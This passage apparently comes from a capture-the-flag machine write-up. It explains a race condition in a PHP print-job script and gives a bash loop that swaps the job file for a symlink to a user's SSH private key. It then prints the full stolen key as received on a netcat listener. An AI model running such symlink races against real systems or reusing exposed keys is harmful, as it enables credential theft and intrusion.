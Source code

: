 ```php
				sleep(0.5); //Buffer for socket check
				$printer = new Printer($connector);
				$printer -> text(file_get_contents("/var/www/jobs/".$file));
				$printer -> cut();
				$printer -> close();
				$message="Job assigned";
				unlink("/var/www/jobs/".$file);
			}
[..]            
```

In short, the code does the following:

1. Creates a file named with the current time, like `2020-04-26_00:55:45` for example.

2. It writes to the file the contents submitted on the print job form

3. It opens a network socket to the remote printer and writes the content of the printer job

The race condition vulnerability here is the `sleep(0.5)` delay that was added. Because the print job file is modifiable by anyone (chmod 0777), it's possible to swap the file by a symlink before the rest of the code reads the content. In other words, we can read or write any file as user `srvadm`.

To abuse the file read and get the private key for `srvadm`, we can do it this way:

- Loop and check if a file exists with the current time
- If the file exists, delete it and replace it with a symlink to the SSH private key for srvadm

```bash
while true ; do N=`date +%Y-%m-%d_%H:%M:%S` ; if [[ -r $N ]] ; then rm -f $N ; ln -s /home/srvadm/.ssh/id_rsa $N ; fi ; done
```

The printer job will the send the private key to us instead of print job we submitted.

```
listening on [any] 9100 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.186] 58348
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
```
